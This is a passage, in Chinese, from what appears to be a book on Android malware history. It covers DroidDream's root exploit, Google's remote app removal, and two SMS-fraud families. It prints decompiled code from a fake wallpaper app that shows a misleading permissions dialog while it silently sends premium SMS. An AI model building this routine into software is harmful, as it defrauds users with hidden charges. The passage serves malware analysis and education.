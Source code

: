 DroidSMS 出现几个月后，Android 恶意软件的形势急剧恶化。2011 年 3 月，总部位于旧金山的安全公司 Lookout Mobile Security 在 Google Play 上发现了一种新型木马，命名为 DroidDream。正如 Lookout 博客文章《安全警报：在官方 Android 市场中发现 DroidDream 恶意软件》所描述，DroidDream 比以往的 Android 恶意软件更为严重，因为它突破了 Android 安全模型的边界。DroidDream 利用了一个名为 Rage Against the Cage（也称为 CVE-2010-EASY）的特权升级漏洞，通过该漏洞，DroidDream 利用 Android 操作系统中的漏洞获得了 root 权限。

DroidDream 是 Android 安全团队的一个转折点。由于受影响的设备已经被永久性地入侵，用户无法将其重置为安全状态，因此 Google Play 应用必须在用户使用之前进行安全扫描。Android 安全团队迅速宣布，他们将从设备中删除现有的 DroidDream 安装，这至少能拯救那些已经安装但尚未打开被感染应用的用户。

以前没有尝试过远程删除应用程序，而从设备中删除 DroidDream 依赖于 Google Play 应用内置的黑客技术。由于远程删除的明显价值，Android 安全团队将其作为一个官方功能添加到了 Google Play Protect 中。如今，Android 安全团队定期通过远程删除高风险类别（如银行钓鱼或勒索病毒）和类似 DroidDream 的 root 木马恶意软件，来保护 Android 用户。

#### ***壁纸家族***

这个来自 Android 初期的大型短信欺诈恶意软件家族假装提供主屏幕壁纸供下载。尽管它的规模很大，但这个恶意软件家族至今未被公开描述。

与所有早期 Android 恶意软件一样，它没有对分析进行保护。它的应用程序在执行恶意 payload 时没有采用任何混淆或其他技术来迷惑安全研究人员。例如，清单 2-1 显示了 *com.kk4.SkypeWallpapers* (v3, 8cab) 中的短信欺诈功能。该应用程序检查是否运行在俄罗斯的手机上，如果是，它会执行 `makeRelation` 方法来发送未公开的高级短信。

```
private void makeRelation(
    String phoneNumber, String message, Context context) {
  int v3_0 = 0;

  AlertDialog.Builder v6_1 = AlertDialog.Builder(this);
  v6_1.setMessage("You don't have enough permissions");
  v6_1.setCancelable(0);
  v6_1.setNeutralButton("OK",
    new com.kk4.SkypeWallpapers.AlertActivity$5(this));

  PendingIntent v4_0 = PendingIntent.getBroadcast(
    this, v3_0, new Intent("SMS_SENT"), v3_0);

  PendingIntent v5_0 = PendingIntent.getBroadcast(
    this, v3_0, new Intent("SMS_DELIVERED"), v3_0);

  this.registerReceiver(
    new com.kk4.SkypeWallpapers.AlertActivity$6(this, v6_1),
    new IntentFilter("SMS_SENT"));

  SmsManager.getDefault().sendTextMessage(
    phoneNumber, 0, message, v4_0, v5_0);
}
```

*清单 2-1：* com.kk4.SkypeWallpapers *(v3, 8cab) 中的高级短信欺诈功能*

`makeRelation` 这个方法名称是这个家族的特征。具有访问 Android 恶意软件数据库的读者可以搜索该方法，发现更多样本。

#### ***相机家族***

这个大型的短信欺诈恶意软件家族没有名称，也没有公开的文档。它通常伪装成相机应用或其他系统工具，于 2011 年中期活跃起来，并且比壁纸家族更为复杂。

与仅仅针对俄罗斯用户不同，这种恶意软件家族收集了设备的国家和移动运营商信息，将其发送到指挥与控制服务器，并接收要发送的电话号码和短信内容。这个技术使其能够在不同的国家运行并扩展到新的国家，而无需更新应用程序。列表 2-2 来自*com.batterypro*（v4，29ee），展示了如何收集这些设备配置文件数据。
